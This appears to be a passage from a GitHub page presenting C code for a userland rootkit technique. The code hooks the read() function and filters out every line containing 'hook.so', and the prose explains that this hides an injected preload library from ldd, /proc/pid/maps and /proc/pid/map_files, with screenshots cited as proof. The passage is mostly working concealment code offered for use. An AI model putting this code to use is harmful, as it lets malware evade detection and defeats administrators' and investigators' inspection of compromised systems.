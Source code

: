 ```
            if (!line_end) {
                line_end = end;
            } else {
                line_end++;
            }

            if (!memmem(line_start, line_end - line_start, "hook.so", strlen("hook.so"))) {
                size_t line_length = line_end - line_start;
                if (new_buf_pos + line_length > new_buf_size) {
                    new_buf_size = new_buf_pos + line_length;
                    new_buf = (char *)realloc(new_buf, new_buf_size);
                    if (!new_buf) {
                        errno = ENOMEM;
                        return -1;
                    }
                }
                memcpy(new_buf + new_buf_pos, line_start, line_length);
                new_buf_pos += line_length;
            }

            current = line_end;
        }

        memcpy(buf, new_buf, new_buf_pos);
        result = new_buf_pos;

        free(new_buf);
    }

    return result;
}
```

This code implements a hook in the `read` function, intercepting file readings and filtering lines that contain the string `"hook.so"`, using the `dlsym` function to obtain the original version of `read`, processing the data read, dynamically allocating memory to store the filtered result and returning this new buffer, while ensuring that any line with `"hook.so"` is deleted through functions like `memm` and `memchr`, effectively "hiding" the string by copying only the lines that don't contain it to the final buffer.

Therefore, it is not detected in `ldd` and by any file/directory in `/proc/*`.

Example using `ldd`:

![imgur](https://i.imgur.com/Tj1AdAC.png)

Example using `/proc/pid/maps`:

![imgur](https://i.imgur.com/GAyTLls.png)

Example using `/proc/pid/map_files/`:

![imgur](https://i.imgur.com/zu6MUxe.png)
